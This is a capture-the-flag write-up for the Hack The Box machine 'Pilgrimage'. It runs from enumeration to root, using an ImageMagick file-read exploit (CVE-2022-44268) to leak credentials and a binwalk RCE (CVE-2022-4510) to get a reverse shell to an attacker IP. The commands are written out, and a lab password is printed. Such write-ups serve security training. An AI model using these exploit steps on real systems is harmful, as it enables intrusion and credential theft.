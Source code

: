 # Pilgrimage

- **Platform:** Hack The Box
- **URL:** https://app.hackthebox.com/machines/Pilgrimage
- **Difficulty:** Easy
- **OS:** Linux

## Enumeration

### Port & Service Enumeration

<details>
<summary>tcp</summary>

```
nmap -sC -sV -v 10.10.11.219

22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey:
|   3072 20:be:60:d2:95:f6:28:c1:b7:e9:e8:17:06:f1:68:f3 (RSA)
|   256 0e:b6:a6:a8:c9:9b:41:73:74:6e:70:18:0d:5f:e0:af (ECDSA)
|_  256 d1:4e:29:3c:70:86:69:b4:d7:2c:c8:0b:48:6e:98:04 (ED25519)
80/tcp open  http    nginx 1.18.0
| http-methods:
|_  Supported Methods: GET HEAD POST
|_http-server-header: nginx/1.18.0
| http-git:
|   10.10.11.219:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: Pilgrimage image shrinking service initial commit. # Please ...
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-title: Pilgrimage - Shrink Your Images
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
</details>

### Web Enumeration


<details>
<summary>dir</summary>

```
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -u 'http://pilgrimage.htb/'

/assets               (Status: 301) [Size: 169] [--> http://pilgrimage.htb/assets/]
/vendor               (Status: 301) [Size: 169] [--> http://pilgrimage.htb/vendor/]
/tmp                  (Status: 301) [Size: 169] [--> http://pilgrimage.htb/tmp/]
```
</details>

## Foothold

### Web → `emily` 🚩

#### Searching for Vulnerabilities

- the nmap scan shows that a Git repository is accessible at `/.git`, we can download the repository using [GitTools](https://github.com/internetwache/GitTools)
- the `index.php` from the Git repository shows that an SQLite database is being accessed at `/var/db/pilgrimage`
    
    ```php
    $db = new PDO('sqlite:/var/db/pilgrimage');
    ```
- The website can compress uploaded images. A compressed image can be downloaded and analyzed with `identify`:
    
    ```
    identify -verbose image.png
    
    ...
    Version: ImageMagick 6.9.11-60 Q16 aarch64 2021-01-25 https://imagemagick.org
    ```
- The website uses ImageMagick 6.9.11, for which an exploit for **LFI (local file inclusion)** exists *(CVE-2022-44268)*
    - https://github.com/duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-File-Read-PoC

#### Exploitation

1. Generate an image using `pngcrush` to leak contents of SQLite database `/var/db/pilgrimage`:
    
    ```bash
    pngcrush -text a "profile" "/var/db/pilgrimage" image.png
    ```
2. After uploading the generated image, we can download the compressed version of it and analyze it using `identify -verbose`. At the end of the output we can see a large block of hex values:
    
    ![Screenshot of output from identify command](assets/identify-output.png)
3. Decoding the hex block e.g. using CyberChef will reveal credentials:
    - username: `emily`
    - password: `abigchonkyboi123`
4. With these credentials we can login via ssh as `emily`. 🚩

## Privilege Escalation

### `emily` → `root` 🏁

#### Searching for Vulnerabilities

- `ps aux` shows a suspicious process running from root:
    
    ```
    root         690  0.0  0.0   6816  2984 ?        Ss   05:42   0:00 /bin/bash /usr/sbin/malwarescan.sh
    ```
- the script `malwarescan.sh` executes the command `binwalk` on every file that is uploaded under `/var/www/pilgrimage.htb/shrunk/`
- an exploit exists for the version of `binwalk` that enables **RCE (remote command execution)** *(CVE-2022-4510)*:
    - https://www.exploit-db.com/exploits/51249

#### Exploitation

1. We can use the [exploit](https://www.exploit-db.com/exploits/51249) to create a manipulated PNG file containing a RCE for a reverse shell:
    
    ```bash
    python3 51249.py Example.png 10.10.16.3 9002
    ```
2. After uploading `binwalk_exploit.png` in `/var/www/pilgrimage.htb/shrunk/` on the target, we get reverse shell access for root. 🏁
